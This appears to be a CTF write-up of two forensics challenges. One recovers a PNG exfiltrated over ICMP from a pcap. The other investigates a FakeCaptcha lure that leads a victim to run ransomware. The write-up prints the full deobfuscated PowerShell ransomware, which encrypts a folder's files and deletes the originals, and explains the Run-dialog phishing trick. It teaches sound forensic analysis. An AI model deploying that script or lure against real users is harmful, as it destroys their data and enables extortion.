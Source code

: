 ```yaml
---
title: "IDEH v6 Write Up"
date: 2025-04-13 10:00:00 +0800
categories: [CTF Write ups]
tags: [Forensics, Malware]
description: Write Up of the forensics challenges i made for the IDEH v6 CTF
image: ../images/ideh6/1.png
---
```

# pingwin

![](../images/ideh6/2.png)

In this challenge, we have a pcap file. Let's analyze it in Wireshark.

![](../images/ideh6/4.png)

We have two protocols in the traffic: DNS and ICMP, which might indicate possible data exfiltration. Let's investigate further.

![](../images/ideh6/5.png)

There's nothing suspicious in the DNS traffic—just queries to an invalid domain, `notgoogle.com`, with no data being transferred.

Now, let's move on to the ICMP traffic.

![](../images/ideh6/6.png)

The first ICMP (ping) request contains some data. In the first request, the data is a PNG file signature, indicating that an image is being exfiltrated through the protocol.

Let's use the `tshark` command line to extract all data chunks and reconstruct the image file:

```
tshark -r pingwin.pcapng -Y "icmp && ip.src == 192.168.42.173" -T fields -e data.data | tr '\n' '\0' | xxd -r -p > solve.png
```

And here is the image being exfiltrated:


![](../images/ideh6/7.png)

FLAG : `IDEH{h0l4_qu3_p4s4_4l_kh4w4}`

# captcha

![](../images/ideh6/3.png)

In this challenge, we have an encrypted PDF file and a ZIP file containing a disk image.

![](../images/ideh6/8.png)

Based on the challenge description, the victim had their PDF encrypted after verifying a captcha on a website.

The captcha verification seems unusual, as a regular captcha verifier doesn't ask the user to open the Windows Run dialog (Windows key + R).
This attack is known as FakeCaptcha, and it is widely spread across the web.
Most of these attacks involve phishing the user into running a pre-copied payload via the Windows Run dialog.
The script is typically an infostealer malware, but in this case, it's ransomware, so let's investigate further.

Opening the disk image with an imaging tool (I used FTK Imager), we can see the user's files.

![](../images/ideh6/9.png)

Great! In Windows, the history of commands used in the Run dialog is stored in the registry at the following path:
`HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU`

Now, let's locate the user registry hive. The user registry is located in the root folder of the user’s directory and is called `ntuser.dat`

 ![](../images/ideh6/10.png)

Let's export this file from the image. To view its contents, we need **Registry Explorer**, a great tool from Eric Zimmerman.

After opening the registry, navigate to the path:
`\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU` to find the history of commands

![](../images/ideh6/11.png)

The malicious payload makes a web request to retrieve the actual payload from Pastebin. Visiting the URL, we can see an obfuscated PowerShell command. We need to deobfuscate it to understand its behavior.

![](../images/ideh6/12.png)

Here is the deobfuscated version:

```Powershell
$folderPath = [System.IO.Path]::Combine([System.Environment]::GetFolderPath("Desktop"), "random_folder_to_not_damage_the_entire_system")
if (-not (Test-Path $folderPath)) {
    Write-Host "Folder not found. Exiting."
    exit
}
$computerName = [System.Environment]::MachineName
if ($computerName.Length -lt 16) {
    $key = $computerName + ('9' * (16 - $computerName.Length))
} else {
    $key = $computerName.Substring(0, 16)
}
Write-Host "Key: $key"
$keyBytes = [System.Text.Encoding]::UTF8.GetBytes($key)
Write-Host "Key Bytes: $($keyBytes -join ', ')"
$aesAlg = [System.Security.Cryptography.Aes]::Create()
$aesAlg.Key = $keyBytes
$aesAlg.Mode = [System.Security.Cryptography.CipherMode]::ECB
$aesAlg.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7
Get-ChildItem -Path $folderPath -File | ForEach-Object {
    $filePath = $_.FullName
    $encryptor = $aesAlg.CreateEncryptor($aesAlg.Key, $null)
    $cryptoStream = New-Object System.Security.Cryptography.CryptoStream(
        [System.IO.File]::OpenWrite($filePath + ".enc"),
        $encryptor,
        [System.Security.Cryptography.CryptoStreamMode]::Write
    )
    $inputFileStream = [System.IO.File]::OpenRead($filePath)
    $inputFileStream.CopyTo($cryptoStream)
    $cryptoStream.FlushFinalBlock()
    $cryptoStream.Close()
    $inputFileStream.Close()
    Remove-Item $filePath -Force
}
```

This PowerShell script encrypts files in a "Desktop" folder **random_folder_to_not_damage_the_entire_system** using AES-ECB with a key derived from the computer name.

- If the computer name is shorter than 16 characters, it pads it with the character `9`.

- If the computer name is longer, it truncates it to 16 characters.

- The script appends `.enc` to the encrypted files and deletes the originals.

Now, we need the computer name to construct the encryption key. The computer name is stored in the Windows registry, specifically at `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\ComputerName\ComputerName`

Let's retrieve the system machine hive.

In the disk image, the registry hive is located in the main folder, before the user folder.

![](../images/ideh6/13.png)

We open it again using **Registry Explorer** and navigate to the **ComputerName** path.

![](../images/ideh6/14.png)

The computer name is `DESKTOP-QELPTBL`

Since the computer name is 15 characters long, the script will pad it with the character `9` to make it a 16-character string.

Thus, the encryption key is `DESKTOP-QELPTBL9`

Now, let's decrypt the PDF file using a custom Python script.

```py
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
import os

def dec_file(encrypted, decrypted, key):
    with open(encrypted, 'rb') as f:
        ciphertext = f.read()
    cipher = AES.new(key, AES.MODE_ECB)
    dec_data = unpad(cipher.decrypt(ciphertext), AES.block_size)
    with open(decrypted, 'wb') as f:
        f.write(dec_data)
    print(f"decrypted and saved as {decrypted}")

key = b"DESKTOP-QELPTBL9"
encrypted = 'flag.pdf.enc'
decrypted = 'flag.pdf'
dec_file(encrypted, decrypted, key)
```

...and voilà, we got the PDF back:

![](../images/ideh6/15.png)

FLAG : `IDEH{D1g174l_F0r3n51c_M4573r}`

